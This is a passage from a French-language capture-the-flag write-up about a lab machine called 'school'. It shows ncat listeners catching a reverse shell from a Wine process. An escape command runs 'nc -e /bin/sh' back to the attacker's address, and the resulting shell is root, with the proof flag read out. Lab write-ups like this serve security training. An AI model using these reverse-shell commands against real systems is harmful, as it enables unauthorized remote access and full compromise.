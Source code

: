 ```python
```

Avec ça je peux recevoir mon reverse shell et j'échape immédiatement du Wine pour créer un autre reverse shell (Linux cette fois) :

```bash
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.51.
Ncat: Connection from 192.168.56.51:33480.
Microsoft Windows 6.1.7601 (4.0)

Z:\> start /unix /bin/nc.traditional -e /bin/sh 192.168.56.1 7777
```

```bash
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.51.
Ncat: Connection from 192.168.56.51:40212.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@school:/root# ls
proof.txt  win
root@school:/root# cat proof.txt
ccc34dede451108a8fe6f75d6ea7d2ae
```

Oups, c'était rapide ! Je n'avais pas fait attention que le process tournait en root (j'aurais du tilter au numéro de port).

CTF d'autant plus rapide que je n'ai eu qu'à adapter l'exploit déjà existant et survoler la partie de RE.
